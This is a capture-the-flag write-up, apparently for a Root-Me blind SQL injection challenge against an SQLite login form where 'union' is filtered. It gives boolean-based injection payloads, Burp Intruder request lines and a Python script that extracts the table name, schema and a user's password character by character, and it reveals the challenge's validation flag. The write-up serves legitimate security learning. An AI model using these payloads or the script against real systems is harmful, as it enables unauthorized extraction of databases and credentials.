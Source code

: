 Database name: SQLite3

Filtered words: union

**Retrieve Table Name**
```
' or UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table'),P,1)) < N --
```
Example: Checking if the first character of the first table’s name is greater than ‘M’
```
' OR UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table' LIMIT 1 OFFSET 0), 1, 1)) > 77 -- 
```

>use Intruder
```
username=a&password='+OR+UNICODE(SUBSTR((SELECT+name+FROM+sqlite_master+WHERE+type%3d'table'+LIMIT+1+OFFSET+0),position,1))==ascii--
```
![alt text](image/image.png)

I got the table `users`
![alt text](image/image-1.png)
**Retrieve Table Schema**
```
' OR UNICODE(SUBSTR((SELECT sql FROM sqlite_master WHERE tbl_name='$TABLE_NAME'), P, 1)) {} {} -- 
```
-    Replace $TABLE_NAME with the table `users`.
-    P extracts characters one by one.

Example: Extract first character of schema for users table
```
' OR UNICODE(SUBSTR((SELECT sql FROM sqlite_master WHERE tbl_name='users'), <position>, 1)) = UNICODE('M') --
```
Python script:
```py
import requests


URL = "http://challenge01.root-me.org/web-serveur/ch10/"
HEADERS = {
    "Content-Type": "application/x-www-form-urlencoded"
}
def get_char_at_pos(position):
    for char_code in range(32, 127): 
        payload = f"' OR UNICODE(SUBSTR((SELECT sql FROM sqlite_master WHERE tbl_name='users'),{position},1))=={char_code}--"
        data = {"username": "a", "password": payload}

        response = requests.post(URL, headers=HEADERS, data=data, allow_redirects=False)

        if 'user1' in response.text:
            return chr(char_code)
        else:
            print(f"Trying {chr(char_code)} at position {position}...")

    return "\x00"

def extract_schema():
    schema = ""
    position = 1  

    while True:
        char = get_char_at_pos(position)
        if char == "\x00":  
            break
        schema += char
        print(f"[+] Extracted so far: {schema}")
        position += 1

    return schema

schema_result = extract_schema()
print("\n Extracted Table Schema:")
print(schema_result)
```
Or, in my case I used Intruder

`'+OR+UNICODE(SUBSTR((SELECT+sql+FROM+sqlite_master+WHERE+tbl_name%3d'users'),+<position>,+1))+%3d+UNICODE('<CHAR>')+--`

`seg 0 50`

`for i in {32..126}; do printf "\\$(printf '%03o' $i)\n"; done`

![alt text](image/image-2.png)
![alt text](image/image-3.png)
![alt text](image/image-4.png)
![alt text](image/image-5.png)

we got 3 collumns: `username`, `password` and `year`

**Retrieve Column Values**
```
' OR UNICODE(SUBSTR((SELECT $COLUMN_NAME FROM $TABLE_NAME LIMIT 1 OFFSET N), P, 1)) {} {} --  
```
-    $COLUMN_NAME → The column you want to extract.
-    $TABLE_NAME → The table you found earlier.
-    LIMIT 1 OFFSET N → Selects which row (first row = OFFSET 0, second row = OFFSET 1, etc.).
-    P → Selects which character of the value to extract.

Example: Extract first character of first username from users table
```
' OR UNICODE(SUBSTR((SELECT password FROM users LIMIT 1 OFFSET 0), position, 1))=UNICODE('char') --
```
![alt text](image/image-6.png)

The result for offset 0 is DsD6z756f$!

![alt text](image/image-7.png)

The result for offset 1 is e2azO93i, which is the validation
